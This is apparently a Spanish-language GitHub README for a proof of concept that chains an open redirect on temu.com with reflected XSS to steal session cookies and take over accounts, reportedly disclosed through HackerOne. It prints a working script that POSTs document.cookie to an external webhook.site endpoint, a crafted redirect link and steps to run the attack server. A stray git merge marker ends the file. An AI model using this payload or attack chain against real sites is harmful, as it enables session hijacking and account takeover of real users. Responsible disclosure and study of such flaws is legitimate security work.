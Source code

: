 # 🛡️ temu-vuln-hunter-pro

> PoC profesional para explotar una vulnerabilidad crítica de Open Redirect + XSS reflejado en **Temu**, demostrando robo de cookies y escalada a toma de cuenta.

---

## 🚨 Descripción

Este proyecto demuestra una cadena de ataque real combinando:

#- ✅ Redirección abierta (`open redirect`)
#- ✅ XSS reflejado desde servidor externo
#- ✅ Robo de cookies vía JavaScript malicioso
#- ✅ Potencial toma de control de cuentas Temu

---

## 🔍 Estructura del Proyecto

temu-vuln-hunter-pro/
├── public/
│ └── poc.html # Página maliciosa que roba cookies
├── server.py # Servidor Flask que simula redirección
├── requirements.txt # Dependencias del proyecto
├── docs/
│ └── report.txt # Informe técnico completo para HackerOne
└── README.md # Este documento

---

## 💥 Payload usado

```html
<script>
fetch("https://webhook.site/32a0eb40-6f73-46d8-ae79-42f7535375e2", {
  method: "POST",
  headers: {"Content-Type": "application/json"},
  body: JSON.stringify({ cookie: document.cookie })
});
</script>
Este payload se ejecuta en poc.html después de que Temu redirige al atacante.

#🧪 Pasos para Reproducir

Visita este enlace:

https://www.temu.com/universal-link?redirect=https://temu-vuln-hunter-pro.vercel.app/redirect?url=https://webhook.site/...
El sistema redirige automáticamente al dominio del atacante.

Se ejecuta código malicioso en poc.html y la cookie se envía a un webhook externo.

#⚙️ Requisitos para correr localmenter

# Clonar el repositorio

git clone https://github.com/Jonathanjimenez123/temu-vuln-hunter-pro.git
cd temu-vuln-hunter-pro

# Instalar dependencias

pip install -r requirements.txt

# Ejecutar servidor Flask

python server.py

#📄 Reporte Técnico

Consulta el archivo docs/report.txt para ver el informe completo enviado a HackerOne, incluyendo impacto, PoC y solución sugerida.

#🧠 Autor Jonathan Jiménez
#💻 Alias HackerOne: jimenez7
#✉️  Email: jimenez7@wearehackerone.com

#⚠️ Disclaimer

Este proyecto es una prueba de concepto creada únicamente con fines educativos y de investigación. No está destinado a usarse con fines maliciosos. Todo reporte se ha hecho bajo los lineamientos éticos del programa HackerOne.

>>>>>>> 14b4965 (🚨 PoC crítica: Open Redirect + XSS + Account takeover en Temu)
